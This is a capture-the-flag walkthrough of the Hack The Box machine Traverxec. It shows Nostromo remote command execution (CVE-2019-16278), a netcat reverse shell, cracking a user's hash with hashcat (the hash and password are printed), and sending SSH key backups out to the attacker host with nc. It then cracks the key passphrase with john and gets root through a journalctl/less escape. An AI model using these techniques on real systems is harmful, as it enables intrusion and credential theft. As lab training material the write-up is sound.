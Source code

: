 ![traverxec card](https://user-images.githubusercontent.com/8876599/113888787-a688cc80-9790-11eb-8e56-af8a48a9cdfc.png)

![nostromo version](https://user-images.githubusercontent.com/8876599/113888850-b3a5bb80-9790-11eb-8baf-3385f5aec46b.png)

![searchsploit nostromo](https://user-images.githubusercontent.com/8876599/113888888-baccc980-9790-11eb-8d86-cc6784a97649.png)

https://github.com/AnubisSec/CVE-2019-16278

CVE-2019-16278

Just provide an IP/port and the command you want to run and you're good to go. (if command has spaces, put cmd between "" ) \

Testing for command execution using the exploit

![nostromo id](https://user-images.githubusercontent.com/8876599/113889245-07180980-9791-11eb-8904-407e507833b3.png)

Verified we have command execution as www-data

![nostromo nc](https://user-images.githubusercontent.com/8876599/113889636-69710a00-9791-11eb-9340-a672a251400f.png)

Verified nc was available on the machine, and sent out a reverse shell back to my attack box

Make sure that you have your nc listener setup on your attack box so you can catch the shell

nc -lnvp 9001

![62d14441ba454b43bdb1ce921c96cc07](https://user-images.githubusercontent.com/8876599/113889925-af2dd280-9791-11eb-94e9-6fb86b53b6d1.png)

https://www.slashroot.in/how-are-passwords-stored-linux-understanding-hashing-shadow-utils

https://null-byte.wonderhowto.com/how-to/crack-shadow-hashes-after-getting-root-linux-system-0186386/

**Cracking with hashcat**

Putting the entire hash into htaccess and setting the --username flag for hashcat to crack the password hash

**hashcat -m 500 htpasswd /usr/share/wordlists/rockyou.txt --username --force**

Breaking this down ...

david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/

Username: david:
MD5 : $1
Salt : $e7NfNpNi
Hash PW : $A6nCwOTqrNR2oDuIKirRZ/

$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/:Nowonly4me    

![hashcat password reveal](https://user-images.githubusercontent.com/8876599/113890385-1ba8d180-9792-11eb-9935-cfc9a5dc229d.png)

David : Nowonly4me

**I'm unable to su or ssh in as david using this password, the only hints I have on this box are related to the nostromo nhttpd.conf file**

Reviewing the nhttpd.conf file there is a section regarding home directory. This option serves up home directory of users via HTTP.

http://www.nazgul.ch/dev/nostromo_man.html

![nostromo homedirs](https://user-images.githubusercontent.com/8876599/113890489-3418ec00-9792-11eb-9dd7-72d425cfcc0e.png)

Through LFI I'm able to navigate to the http://10.10.10.165/~david/ home directory but I can't discover or access any directories that should be otherwise accessible (ssh, htpasswd, profile, etc)

The only directory I'm able to get to is index.html - This is accessible on the server as www-data

![public_www](https://user-images.githubusercontent.com/8876599/113890560-4561f880-9792-11eb-830e-c06fe2bfd907.png)

Downloaded the fies back to my machine using nc

Victim:
cat backup-ssh-identity-files.tgz | nc 10.10.14.25 9001

Kali:
nc -lnvp 9001 > backup-ssh-identity-files.tgz.b64

Decompressed the files using tar

mv backup-ssh-identity-files.tgz.b64 backup-ssh-identity-files.tgz
tar -zxvf backup-ssh-identity-files.tgz

![ssh backup keys](https://user-images.githubusercontent.com/8876599/113890835-835f1c80-9792-11eb-9a36-7f7b96c17e21.png)

Cracking the ssh private key password

Ran ssh2john against the private ssh key and then cracked the key using john

ssh2john id_rsa > id_rsa.john
john id_rsa.john --wordlist=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt

![john ssh key](https://user-images.githubusercontent.com/8876599/113890936-9d006400-9792-11eb-9b37-52a6a221df3e.png)

Creating a copy of the rsa_key that isn't protected for future use

openssl rsa -in id_rsa -out ~/htb/traverxec/id_rsa_traverxec_david

![openssl key](https://user-images.githubusercontent.com/8876599/113891012-ae497080-9792-11eb-9fe7-5184cf64e63c.png)

Able to ssh into the box as david using his private key

![ssh as david](https://user-images.githubusercontent.com/8876599/113891093-bef9e680-9792-11eb-85b7-de93453fced8.png)

Exploring users home directory to see if there are any useful scripts

![david home](https://user-images.githubusercontent.com/8876599/113891133-c91be500-9792-11eb-88b2-d2259a190d13.png)

I can run the script without any issues, which tells me I must be a member of the sudoers group, but I can't run sudo -l is prompts for a password. Checking gtfo bins for jounalctl

![gtfo jounralctl](https://user-images.githubusercontent.com/8876599/113891190-d638d400-9792-11eb-8738-23afac340872.png)

Because the journalctl is calling for the last 5 lines, if we shrink the terminal to < 5 lines we will get into less as root, where we can then run the gtfobins cmd !/bin/bash to escape with a root shell.

![journalctl exploit](https://user-images.githubusercontent.com/8876599/113891246-e3ee5980-9792-11eb-920c-53a77a61f622.png)

![traverxec root](https://user-images.githubusercontent.com/8876599/113891260-e81a7700-9792-11eb-955d-d931e261b099.png)






